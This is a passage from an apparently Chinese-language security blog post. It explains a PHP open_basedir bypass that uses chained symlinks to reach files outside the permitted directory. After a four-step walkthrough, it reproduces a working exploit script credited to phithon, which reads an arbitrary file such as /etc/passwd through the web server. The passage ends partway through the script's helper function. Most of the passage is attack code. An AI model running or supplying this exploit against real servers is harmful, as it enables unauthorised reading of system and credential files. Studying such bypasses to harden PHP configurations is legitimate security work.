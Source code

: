 分析一下poc过程:

1. 创建A/B/C/D目录，并返回到起始目录
2. `symlink("A/B/C/D","SD")`:创建符号文件SD,指向A/B/C/D
3. `symlink("SD/../../../../etc/passwd","POC")`:创建符号文件POC,指向`SD/../../../../etc/passwd`。此时SD=A/B/C/D,而`A/B/C/D../../../../`=`/var/www/html`,符合open\_basedir的限制,创建成功。
4. unlink("SD"):删除软链接SD，并创建一个文件夹,此时SD作为一个真正的目录存在。那么访问POC,指向的是`SD/../../../../etc/passwd`,`SD/../../../`就是/var目录,`/var/../etc/passwd`恰好可以读取到etc目录下的passwd，从而达到跨目录访问的效果。

这里需要跨几层目录就需要创建几层目录。

最后附上p牛EXP

```php
<?php
/* * by phithon * From https://www.leavesongs.com * detail: http://cxsecurity.com/issue/WLB-2009110068 */
header('content-type: text/plain');
error_reporting(-1);
ini_set('display_errors', TRUE);
printf("open_basedir: %s\nphp_version: %s\n", ini_get('open_basedir'), phpversion());
printf("disable_functions: %s\n", ini_get('disable_functions'));
$file = str_replace('\\', '/', isset($_REQUEST['file']) ? $_REQUEST['file'] : '/etc/passwd');
$relat_file = getRelativePath(__FILE__, $file);
$paths = explode('/', $file);
$name = mt_rand() % 999;
$exp = getRandStr();
mkdir($name);
chdir($name);
for($i = 1 ; $i < count($paths) - 1 ; $i++){
    mkdir($paths[$i]);
    chdir($paths[$i]);
}
mkdir($paths[$i]);
for ($i -= 1; $i > 0; $i--) { 
    chdir('..');
}
$paths = explode('/', $relat_file);
$j = 0;
for ($i = 0; $paths[$i] == '..'; $i++) { 
    mkdir($name);
    chdir($name);
    $j++;
}
for ($i = 0; $i <= $j; $i++) { 
    chdir('..');
}
$tmp = array_fill(0, $j + 1, $name);
symlink(implode('/', $tmp), 'tmplink');
$tmp = array_fill(0, $j, '..');
symlink('tmplink/' . implode('/', $tmp) . $file, $exp);
unlink('tmplink');
mkdir('tmplink');
delfile($name);
$exp = dirname($_SERVER['SCRIPT_NAME']) . "/{$exp}";
$exp = "http://{$_SERVER['SERVER_NAME']}{$exp}";
echo "\n-----------------content---------------\n\n";
echo file_get_contents($exp);
delfile('tmplink');

function getRelativePath($from, $to) {
  // some compatibility fixes for Windows paths
  $from = rtrim($from, '\/') . '/';
  $from = str_replace('\\', '/', $from);
  $to   = str_replace('\\', '/', $to);

```